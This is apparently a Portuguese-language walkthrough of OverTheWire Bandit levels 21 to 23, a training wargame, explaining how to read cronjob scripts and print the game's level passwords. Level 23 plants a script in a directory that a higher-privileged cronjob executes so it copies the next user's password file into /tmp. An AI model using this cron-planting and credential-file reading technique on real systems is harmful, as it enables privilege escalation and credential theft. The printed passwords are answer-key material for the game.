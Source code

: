 Analisando o código, você pode ver que a senha do bandit22 está sendo enviada para aquele arquivo de nome estranho no /tmp  
É só dar um cat nele!

{% highlight bash %}
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
{% endhighlight %}

<hr class="codebreak">

# Level 22

O início é igual ao level 21\. Você deve verificar o cronjob do bandit23.

{% highlight bash %}
# !/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
{% endhighlight %}

Um poquinho de leitura de código resolve seu trabalho:

{% highlight bash %}
myname=bandit23
cat /tmp/$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
{% endhighlight %}

<hr class="codebreak">

# Level 23

Mesma coisa no início, olho no cronjobs_bandit24.  
Você pode ver no script que ele executa que ele procura arquivos em uma determinada pasta e executa tudo que estiver la a todo minuto  
Então é simples!

{% highlight bash %}
cd /var/spool/bandit24
echo "cat /etc/bandit_pass/bandit24 > /tmp/318br.bandit24" > script.sh
chmod +x script.sh
#  agora basta esperar virar para o próximo minuto e
cat /tmp/318br.bandit24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
{% endhighlight %}
